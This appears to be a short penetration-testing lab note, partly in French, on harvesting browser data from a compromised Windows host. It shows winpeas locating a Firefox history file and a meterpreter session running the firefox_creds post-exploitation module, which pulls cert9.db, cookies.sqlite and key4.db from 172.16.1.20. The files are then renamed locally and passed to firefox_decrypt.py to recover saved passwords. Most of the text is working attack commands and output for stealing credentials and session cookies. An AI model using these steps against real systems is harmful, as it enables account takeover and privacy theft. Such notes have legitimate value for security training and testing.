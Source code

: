 ### Browser password et history
#history:
output de winpeas:
C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\6o1ryota.default-release\places.sqlite


#password
meterpreter > run post/multi/gather/firefox_creds 

[*] Checking for Firefox profile in: C:\Users\katwamba\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\6o1ryota.default-release
[+] Downloaded cert9.db: /root/.msf4/loot/20210102123152_default_172.16.1.20_ff.6o1ryota.cert_540328.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20210102123155_default_172.16.1.20_ff.6o1ryota.cook_779384.bin
[+] Downloaded key4.db: /root/.msf4/loot/20210102123209_default_172.16.1.20_ff.6o1ryota.key4_028261.bin

[*] Profile: C:\Users\katwamba\AppData\Roaming\Mozilla\Firefox\Profiles\vd59vltl.default

meterpreter > 

==========


┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123152_default_172.16.1.20_ff.6o1ryota.cert_540328.bin cert9.db
┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123155_default_172.16.1.20_ff.6o1ryota.cook_779384.bin cookies.sqlite
┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $cp 20210102123209_default_172.16.1.20_ff.6o1ryota.key4_028261.bin key4.db

┌─[user@parrot-virtual]─[~/Downloads/20/katwamba_firefox]
└──╼ $python firefox_decrypt/firefox_decrypt.py .

